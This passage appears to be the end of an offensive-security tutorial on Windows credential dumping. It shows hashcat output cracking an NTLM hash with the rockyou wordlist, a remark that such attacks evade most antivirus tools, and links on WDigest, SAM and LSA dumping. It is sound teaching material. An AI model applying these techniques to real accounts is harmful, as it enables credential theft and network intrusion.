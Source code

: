 ```
* Runtime...: 1 sec

7facdc498ed1680c4fd1448319a8c04f:Password1!               
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 7facdc498ed1680c4fd1448319a8c04f
Time.Started.....: Sat Aug 16 08:31:59 2025 (1 sec)
Time.Estimated...: Sat Aug 16 08:32:00 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1599.3 kH/s (0.06ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 176128/14344385 (1.23%)
Rejected.........: 0/176128 (0.00%)
Restore.Point....: 175104/14344385 (1.22%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: ROSES -> 311331
Hardware.Mon.#1..: Util: 24%

Started: Sat Aug 16 08:31:39 2025
Stopped: Sat Aug 16 08:32:01 2025
```

Dumping and passing secrets as we have done in this video is a simple way of
getting around in the network without the need to get access to a shell at any
time! These attacks run undetected by most antivirus software, unless the
defense team is very alert.



### Further reading

* [Credential Access & Dumping](https://www.ired.team/offensive-security/credential-access-and-credential-dumping)
* [Credential Dumping: WDigest](https://www.hackingarticles.in/credential-dumping-wdigest/)
* [WDigest Clear-Text Passwords: Stealing More than a Hash](https://blog.netwrix.com/2022/10/11/wdigest-clear-text-passwords-stealing-more-than-a-hash/)
* [WDigest: Digging the dead from the grave](https://neuralhax.github.io/wdigest-digging-the-dead-from-the-grave/)
* [Credential Dumping: SAM](https://www.hackingarticles.in/credential-dumping-sam/)
* [Windows LSA secrets](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)




